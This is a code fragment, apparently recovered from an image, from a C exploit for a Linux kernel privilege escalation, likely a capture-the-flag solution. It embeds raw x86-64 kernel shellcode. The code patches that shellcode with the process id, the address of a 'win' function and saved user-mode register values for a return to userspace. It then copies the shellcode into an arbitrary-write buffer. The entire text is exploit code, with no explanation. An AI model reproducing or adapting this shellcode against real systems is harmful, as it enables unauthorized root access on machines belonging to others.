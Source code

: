 ```c
    char shellcode[] = "\xF3\x0F\x1E\xFA\xE8\x00\x00\x00\x00\x41\x5F\x49\x81\xEF\x59\xF5\x1A\x00\x49\x8D\xBF\x00\x6B\xA7\x02\x49\x8D\x87\x70\x26\x1C\x00\xFF\xD0\xBF\x01\x00\x00\x00\x49\x8D\x87\xA0\x8F\x1B\x00\xFF\xD0\x48\x89\xC7\x49\x8D\xB7\xC0\x68\xA7\x02\x49\x8D\x87\xD0\x0A\x1C\x00\xFF\xD0\x49\x8D\xBF\x20\x53\xBB\x02\x49\x8D\x87\xF0\xC0\x45\x00\xFF\xD0\x48\x89\xC3\x48\xBF\x11\x11\x11\x11\x11\x11\x11\x11\x49\x8D\x87\xA0\x8F\x1B\x00\xFF\xD0\x48\x89\x98\x28\x08\x00\x00\x31\xC0\x48\x89\x04\x24\x48\x89\x44\x24\x08\x48\xB8\x22\x22\x22\x22\x22\x22\x22\x22\x48\x89\x44\x24\x10\x48\xB8\x33\x33\x33\x33\x33\x33\x33\x33\x48\x89\x44\x24\x18\x48\xB8\x44\x44\x44\x44\x44\x44\x44\x44\x48\x89\x44\x24\x20\x48\xB8\x55\x55\x55\x55\x55\x55\x55\x55\x48\x89\x44\x24\x28\x48\xB8\x66\x66\x66\x66\x66\x66\x66\x66\x48\x89\x44\x24\x30\x49\x8D\x87\xC6\x11\x40\x01\xFF\xE0\xCC";

    void *p;
    p = memmem(shellcode, sizeof(shellcode), "\x11\x11\x11\x11\x11\x11\x11\x11", 8);
    *(size_t*)p = getpid();
    p = memmem(shellcode, sizeof(shellcode), "\x22\x22\x22\x22\x22\x22\x22\x22", 8);
    *(size_t*)p = (size_t)&win;
    p = memmem(shellcode, sizeof(shellcode), "\x33\x33\x33\x33\x33\x33\x33\x33", 8);
    *(size_t*)p = user_cs;
    p = memmem(shellcode, sizeof(shellcode), "\x44\x44\x44\x44\x44\x44\x44\x44", 8);
    *(size_t*)p = user_rflags;
    p = memmem(shellcode, sizeof(shellcode), "\x55\x55\x55\x55\x55\x55\x55\x55", 8);
    *(size_t*)p = user_rsp;
    p = memmem(shellcode, sizeof(shellcode), "\x66\x66\x66\x66\x66\x66\x66\x66", 8);
    *(size_t*)p = user_ss;

    memcpy(arb_buf+0x550, shellcode, sizeof(shellcode));

    setresuid(1000, 1000, 1000);

    return 0;
}
```
